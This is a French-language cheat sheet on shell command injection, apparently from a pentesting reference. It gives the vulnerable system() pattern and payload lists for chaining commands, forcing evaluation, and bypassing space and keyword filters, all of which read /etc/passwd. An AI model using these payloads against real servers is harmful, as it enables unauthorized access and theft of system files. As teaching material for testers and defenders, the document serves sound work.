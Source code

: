 <!--- id: intro --->
<!--- category: cmdinjection --->
# Injection de commandes Shell

L'injection de commande Shell est possible quand un programme utilise une donnée, entrée par l'utilisateur, sans la filtrer, comme argument d'une commande shell.

Par exemple: un formulaire permet de saisir son nom et l'afficher.
Le code coté serveur va ressembler à: system ('echo '.$NAME);
Si nous saisissons: YOLO; cat /etc/password;
Le serveur va enchainer les deux commandes en executant system ('echo YOLO; cat /etc/password;'); et nous permettre de récupérer le contenu du fichier passwd.

<!--- id: CommandPrinciple --->
<!--- category: cmdinjection --->
<!--- keywords:  --->
## Command Injection: Principe

L'injection de commande Shell est possible quand un programme utilise une donnée, entrée par l'utilisateur, sans la filtrer, comme argument d'une commande shell.

Par exemple: un formulaire permet de saisir son nom et l'afficher.
Le code coté serveur va ressembler à: 
<pre><code>system ('echo '.$NAME);
</code></pre> 
Si nous saisissons: 
<pre><code>YOLO; cat /etc/password;
</code></pre> 
Le serveur va enchainer les deux commandes en executant:
<pre><code>system ('echo YOLO; cat /etc/password;'); 
</code></pre> 
Nous allons récupérer le contenu du fichier passwd.

Avec une injection de commande nous avons la main sur le serveur.
Nous pouvons récupérer des informations sur le serveur (uname -a), recupérer des noms de comptes (cat /etc/passwd), récupérer les fichiers de config du serveur web, lancer un reverse shell...

<!--- id: CommandChainUx --->
<!--- category: cmdinjection --->
<!--- keywords:  --->
## Unix: Enchainer deux commandes shell

Utiliser les séparateurs de commandes ; && | ||
<pre><code>echo YOLO; cat /etc/passwd
echo YOLO && cat /etc/passwd
echo YOLO | cat /etc/passwd
echo YOLO || cat /etc/passwd    Seulement si la première commande est en echec
</code></pre> 

<!--- id: CommandEvalUx --->
<!--- category: cmdinjection --->
<!--- keywords:  --->
## Unix: Force command execution in a string

Il est possible de forcer l'execution d'une commande avec ` $ et {
<pre><code>echo `cat /etc/passwd`
echo $(cat /etc/passwd)
echo {cat,/etc/passwd}
</code></pre> 

<!--- id: CommandSpaceFilteres --->
<!--- category: cmdinjection --->
<!--- keywords:  --->
## Bypass: Les espaces sont filtrés

Les développeurs peuvent avoir mis des filtres pour empécher l'execution de commande. Par exemple retirer les espaces. Néanmoins, même sans espaces, il est toujours possible de lancer lancer des commandes:
<pre><code>cat&lt;/etc/passwd
{cat,/etc/passwd}
X=$'cat\x20/etc/passwd'&&$X
</code></pre> 

<!--- id: CommandBlacklist --->
<!--- category: cmdinjection --->
<!--- keywords:  --->
## Bypass: Certains mot clefs sont filtrés

Si un filtre recherche une liste de commandes, il est toujours possible de le contourner: simple quote, double quote, backslash et slash
<pre><code>c'a't /etc/passwd
cat /etc/passwd
c\at /etc/passwd
who``ami
</code></pre> 
Et si un nom de fichier est filtré, il est possible de multiplier les /
Filtre sur cat et /etc/passwd
<pre><code>c\at /etc////////passwd
</code></pre> 


